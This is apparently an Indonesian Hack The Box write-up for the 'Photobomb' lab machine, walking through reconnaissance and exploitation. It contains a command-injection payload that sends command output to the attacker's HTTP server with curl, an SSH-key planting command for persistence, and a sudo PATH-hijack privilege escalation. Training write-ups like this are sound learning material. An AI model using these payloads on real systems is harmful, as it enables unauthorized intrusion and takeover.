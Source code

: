```yaml
---
description: Writeup mesin Hack The Box Photobomb
---
```


# Photobomb

### Port Scanning

Pertama, kita lakukan port scanning pada target.

```bash
sudo nmap -sV -sT -sC -oA nmap_initial photobomb.htb
```

Output dari nmap menunjukkan bahwa port yang terbuka hanya port 80 dan 22.

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Photobomb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Sambil kita lakukan full port scan, kita bisa asumsikan bahwa kemungkinan kita akan mendapatkan akses masuk lewat aplikasi yang berada di port 80.

### Web Exploitation

Saat melihat source dari halaman depan aplikasi, kita mendapati file photobomb.js yang dapat diakses melalui url berikut: http://photobomb.htb/photobomb.js

```
http://pH0t0:b0Mb!@photobomb.htb/printer
```

Setelah melakukan fuzzing semua parameter pada fitur Download Photo, saya mengkonfirmasi adanya kerentanan command injection pada parameter **filetype**.

Untuk konfirmasi, pertama kita siapkan terlebih dahulu web server di mesin kita untuk menerima output dari command yang kita kirim.

```bash
python3 -m http.server 5555
```

Lalu pada parameter **filetype**, kita masukkan command

```
/bin/bash -c 'curl http://10.10.14.19:5555/?`uname -a | base64`'
```

Sesuaikan sendiri untuk IP dan portnya dengan IP mesin kalian.

Berikut screenshot saat command injection dikirim melalui Burp Repeater.

<figure><img src="../../.gitbook/assets/1. req.png" alt=""><figcaption></figcaption></figure>

Dan berikut response yang kita terima pada HTTP server yang sudah kita siapkan sebelumnya.

<figure><img src="../../.gitbook/assets/2. resp.png" alt=""><figcaption><p>Command Injection</p></figcaption></figure>

Disitu terlihat hasil dari decode base64 nya adalah output dari command **uname -a** yang kita kirim sebelumnya.

### Get Shell User Access

Setelah mengkonfirmasi adanya kerentanan Command Injection, saya mengubah payload sebelumnya dengan payload reverse shell. Namun entah payload saya yang salah, server mesin Photobomb yang error, atau memang didesain seperti itu, shell yang didapatkan setelah back connect seperti hang dan tidak bisa digunakan untuk menjalankan command apapun.

Solusi akhir yang terpikirkan adalah menambahkan public key SSH dari mesin saya ke server, sehingga saya bisa login ke SSH tanpa menggunakan password.

Referensi: [**SSH Tanpa Password**](https://www.linuxsec.org/2019/10/login-ssh-tanpa-password.html)

```
mkdir ~/.ssh && touch ~/.ssh/authorized_keys && echo "ssh-rsa AAAAB3NzaC1yc2EAAAAD.... some random public key.....4VGJLKPnmAr/hYl haibara@htb" | tee -a ~/.ssh/authorized_keys
```

<figure><img src="../../.gitbook/assets/3. add ssh key.png" alt=""><figcaption></figcaption></figure>

Selanjutnya tinggal login SSH menggunakan key.

<figure><img src="../../.gitbook/assets/4. user pwned.png" alt=""><figcaption></figcaption></figure>

### Get Root Access

Dari user wizard, kita dapat melakukan privilege escalation memanfaatkan path injection. Pertama, kita cek terlebih dahulu apakah user kita dapat menjalankan command sudo tanpa password.

```
sudo -l
```

Output

```
User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```

Ada "kesalahan" yang bisa kita eksploitasi disini yakni saat mengeksekusi sudo, kita juga dapat mengatur env (**SETENV**), yang nanti dapat kita chaining dengan kesalahan pada scripting file **cleanup.sh**.

Pada file **/opt/cleanup.sh**, baris terakhir memiliki kerentanan path injection dimana perintah path dari **find** tidak di define secara solid sehingga dapat kita manipulasi.

```
# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Cara melakukan privilege escalation dari kerentanan ini:

```bash
echo "/bin/bash -i" | tee /tmp/find
chmod +x /tmp/find
sudo PATH=/tmp/:$PATH /opt/cleanup.sh
```

<figure><img src="../../.gitbook/assets/5. rooted.png" alt=""><figcaption><p>Path Injection</p></figcaption></figure>

